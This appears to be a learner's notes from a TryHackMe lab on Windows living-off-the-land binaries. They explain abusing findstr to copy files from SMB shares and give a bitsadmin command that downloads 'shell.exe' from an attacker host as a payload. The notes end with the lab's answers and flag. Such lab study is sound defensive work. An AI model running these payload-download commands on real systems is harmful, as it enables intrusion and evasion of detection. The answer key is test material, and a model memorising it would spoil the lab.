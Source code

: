 For more information about the bitsadmin parameters, you can visit the [Microsoft documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer) of the tool.

## FindStr

[Findstr](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr) [](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)is a Microsoft built-in tool used to find text and string patterns in files. The findstr tool is useful in that helps users and system administrators to search within files or parsed output. For example, if we want to check whether port 8080 is open on our machine, then we can pipe the result of netstat to find that port as follows: netstat -an| findstr "445".

  

However, an unintended way was found by using findstr.exe to download remote files from SMB shared folders within the network as follows,


```shell-session
C:\Users\thm>findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe
```

`/V` to print out the lines that don't contain the string provided.

`dummystring` the text to be searched for; in this case, we provide a string that must not be found in a file.

`> c:\Windows\Temp\test.exe` redirect the output to a file on the target machine. 

Note that other tools can be used for the file operation. We suggest visiting the [LOLBAS](https://lolbas-project.github.io/) [](https://lolbas-project.github.io/)project to check them out.

In the next task, we will introduce some of the tools used to execute files.


## Practical

---

Let's download any file from our machine:

```
bitsadmin.exe /transfer /Download /priority Foreground http://IP:8000/shell.exe c:\Users\thm\Desktop\payload.exe
```

Once we do it, a file will appear:

![[Pasted image 20250522161635.png]]

We can decode it either using `certutil` or simple base64 decode:

![[Pasted image 20250522161700.png]]

Got both answers:

```
enc_thm_0YmFiOG_file.txt

THM{ea4e2b9f362320d098635d4bab8a568e}
```
